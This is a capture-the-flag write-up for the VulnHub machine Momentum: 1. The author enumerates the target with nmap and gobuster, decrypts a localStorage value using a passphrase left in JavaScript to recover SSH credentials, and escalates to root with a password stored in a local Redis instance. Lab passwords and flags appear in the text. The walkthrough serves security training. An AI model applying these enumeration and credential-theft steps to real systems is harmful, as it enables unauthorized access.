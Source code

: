 [vulnhub - easy/medium] momentum: 1
-----------------------------------

The first thing I do is fping to find out the machine's ip in my host-only network:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ fping -aqg 192.168.56.0/24
192.168.56.1
192.168.56.100
192.168.56.121
```

Then nmap for all ports:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.121         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 21:49 -03
Nmap scan report for 192.168.56.121
Host is up (0.000054s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```

Then nmap the open ports for version and service:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ nmap -p 22,80 -sC -sV -oN nmap_info_detailed 192.168.56.121 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 21:51 -03
Nmap scan report for 192.168.56.121
Host is up (0.00037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum | Index 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

Next up is checking the webpage being served on port 80 to see what I can get:

![momentum-1 1](./images/momentum-1-1.png)

Nothing really interesting in the source code of the website. I run exiftoon on all 4 images and get nothing out of it. The images come from '/img/' directory so I go to http://192.168.56.121/img/ to see if there's anything interesting there and there isn't.

When I click the first Image, I'm redirected to http://192.168.56.121/#img1

And see this:

![momentum-1 2](./images/momentum-1-2.png)

And when I click the image, I'm redirected to http://192.168.56.121/opus-details.php?id=demon

And see this:

![momentum-1 3](./images/momentum-1-3.png)

The url contains the "id" parameter that might be injectable, so I run sqlmap on this url and get nothing out of it.

I run gobuster in this url and this is what I find:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ gobuster dir -u http://192.168.56.121/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_dir_info -x html,txt,php

/index.html           (Status: 200) [Size: 2001]
/img                  (Status: 301) [Size: 314] [--> http://192.168.56.121/img/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.56.121/css/]
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.121/manual/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.56.121/js/]
/server-status        (Status: 403) [Size: 279]
```

When I access the http://192.168.56.121/js/ there is a 'main.js' file available, when I click on It, this is what I see:

```javascript
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

Commented out there's a piece of code that uses CryptoJS (and its passphrase in clear text). I immediately think of cookies that could have been encrypted with it so I look in my localstorage to see what I can find, and I find 'U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt'. So I look for a [codepen online](https://codepen.io/gabrielizalo/pen/oLzaqx) that uses CryptoJS and allows me to change it as I want, so I do this:

![momentum-1 4](./images/momentum-1-4.png)

'auxerre-alienum##' looks like credentials to me and it must be ssh credentials, so I try to log in with these to no avail. I then create a python script to change the '#' in the supposed password to numbers as '#' might mean 'number':

```python
file = open('pass_list.txt', 'a')

for i in range(0, 10):
    file.write('alienum'+str(i)+'\n')
    for j in range(0, 10):
        string = 'alienum'+str(i)+str(j)+'\n'
        file.write(string)

file.close()
```

I try to bruteforce the ssh log in with hydra, but I have no success again.

So after trying a few things, I try to use the whole string as a password, so, with user 'auxerre' and password 'auxerre-alienum##', I manage to log in:

```
┌──(j㉿kali)-[~/Desktop/vulnhub/momentum-1]
└─$ ssh auxerre@192.168.56.121
auxerre@192.168.56.121's password: 
Linux Momentum 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 22 08:47:31 2021
auxerre@Momentum:~$ ls
user.txt
auxerre@Momentum:~$ 
```

The first thing I do is get the user flag:

```
auxerre@Momentum:~$ cat user.txt 
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

I pass linpeas to the machine using the pythonHTTPserver and wget, run the tool and get:

```
redis      458  0.2  0.4  51672  9592 ?        Ssl  17:09   0:01 /usr/bin/redis-server 127.0.0.1:6379
```

So, like that, I find out that there's Redis running internally on port 6379. My next step is to connect to this redis server and get whatever I can out of it:

```
auxerre@Momentum:~$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO keyspace
# Keyspace                                                                                                          
db0:keys=1,expires=0,avg_ttl=0                                                                                      
127.0.0.1:6379> SELECT 0
OK                                                                                                                  
127.0.0.1:6379> KEYS *
1) "rootpass"                                                                                                       
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##" 
```

And just like that I get a string with a pattern that looks very much like a password, given the previous password's pattern. So I try to switch user into root with that password:

```
auxerre@Momentum:~$ su root                                                                                         
Password:                                                                                                           
root@Momentum:/home/auxerre#
```

Then I cd into root and get the flag:

```
[ Momentum - Rooted ]                                                                                               
---------------------------------------                                                                             
Flag : 658ff660fdac0b079ea78238e5996e40                                                                             
---------------------------------------                                                                             
by alienum with <3
```

